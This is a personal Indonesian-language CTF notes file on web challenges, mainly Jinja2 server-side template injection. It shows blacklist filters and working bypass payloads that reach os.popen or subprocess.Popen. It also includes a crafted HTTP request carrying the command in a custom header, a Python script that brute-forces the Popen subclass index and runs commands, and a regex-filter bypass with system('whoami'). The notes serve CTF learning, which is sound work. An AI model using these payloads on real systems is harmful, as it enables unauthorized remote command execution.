



- [Web](#web)
    1. [SSTI](#ssti)

Ini adalah catetan saya yang dibuat secara personal berdasarkan pengalaman saya yang telah mengerjakan ctf selama ini

# Web

## SSTI

ada chall ini, diberikan program berikut:

```py
def security_filter(user_input):
 blacklist = ["%", "\\", "/", "\"", "'", "`", "|", " ", "[", "]", "+","init", "subprocess", "globlas", "config", "update", "mro", "subclasses",
"class", "base", "builtins", "cycler", "joiner", "namespace", "lipsum"]

 for word in blacklist:
    if word in user_input:
        return False
 return True
 ```

 payload untuk bypass : `{{url_for.__globals__.os.popen(request.headers.tel).read()}}`

 req header:
```
POST /search HTTP/1.1
Host: 103.160.212.3:1339
Content-Length: 70
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://103.160.212.3:1339
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Tel: cat /flag.txt   -> ini variabel baru
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/a
png,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://103.160.212.3:1339/

Accept-Encoding: gzip, deflate, br
Connection: keep-alive

query={{url_for.__globals__.os.popen(request.headers.tel).read()}}
```
atau bisa juga
```
{{url_for.__globals__.os.popen(request.args.a).read()}}
```



---

The regex expression is `/^[0–9a-z ]+$/i`

- Only numbers and lowercase
- Key insensitive





---

The Regex filter bypass is:

`/(\b)(on\S+)(\s*)=|javascript|<(|\/|[^\/>][^>]+|\/[^>][^>]+)>|({+.*}+)/`


```


{system('whoami')

}


```

---

```py
blacklists =['os', 'sys', 'import','subprocess', 'shutil', 'tempfile', 'pickle', 'marshal',
            'write', 'eval', 'exec', 'system', 'popen', 'open',
            'call', 'check_output', 'check_call', 'startfile', 'remove', 'unlink',
            'rmdir', 'remove', 'rename', 'replace', 'chdir', 'chmod', 'chown',
            'chroot', 'link', 'lchown', 'listdir', 'lstat', 'mkdir', 'makedirs',
            'mkfifo', 'mknod', 'open', 'openpty', 'remove', 'removedirs',
            'rename', 'renames', 'rmdir', 'stat', 'symlink', 'unlink', 'walk', 'write',
            'popen', 'builtins', 'global'] 
```

pertama cari dulu class2 nya pake ini:
```
{{ dict.__base__.__subclasses__()[50:100] }}
```

intinya kita harus dapetin class seperti `Popopen` buat bisa ngelakuin command, nah kita harus cari di index mana, jadi bisa pake script ini buat nyari biar ga cape nge brute:
```py
import requests
from bs4 import BeautifulSoup

# Konfigurasi
url = "http://localhost:8888/card"
headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}

# Fungsi untuk kirim payload dan ambil hasil render
def send_payload(payload):
    try:
        res = requests.post(url, data=f"name={payload}", headers=headers, timeout=5)
        soup = BeautifulSoup(res.text, "html.parser")
        return soup.get_text()
    except Exception as e:
        return f"[!] Error: {e}"

# 1. Cari index dari subprocess.Popen
def find_popen_index(start=0, end=500):
    print("[*] Searching for subprocess.Popen...")
    for i in range(start, end):
        payload = f"{{{{ dict.__base__.__subclasses__()[{i}] }}}}"
        result = send_payload(payload)
        if "subprocess.Popen" in result:
            print(f"[+] Found subprocess.Popen at index: {i}")
            return i
    print("[!] subprocess.Popen not found")
    return None

# 2. Eksekusi perintah via subprocess.Popen
def execute_command(popen_index, command="cat /flag.txt"):
    payload = (
        f"{{{{ dict.__base__.__subclasses__()[{popen_index}]("
        f"'{command}', shell=True, stdout=-1).communicate() }}}}"
    )
    print(f"[*] Executing: {command}")
    result = send_payload(payload)
    print("\n[+] Command Output:\n", result.strip())

# Main
if __name__ == "__main__":
    popen_index = find_popen_index()
    if popen_index is not None:
        execute_command(popen_index)
```

misal kita dapet class `subprocess.Popen` di index `371` kita tinggal masukin command:

```
{{ dict.__base__.__subclasses__()[371]("cat /flag.txt", shell=True, stdout=-1).communicate() }}
```

tapi untuk chall ini, letak flag di letakkan di luar main dir `/app`, sedangkan flag di taruh di `/`, sehingga kita bisa modifikasi command nya jadi:

```
{{ dict.__base__.__subclasses__()[371]("for f in /?*.txt; do cat $f; done", shell=True, stdout=-1).communicate() }}
```

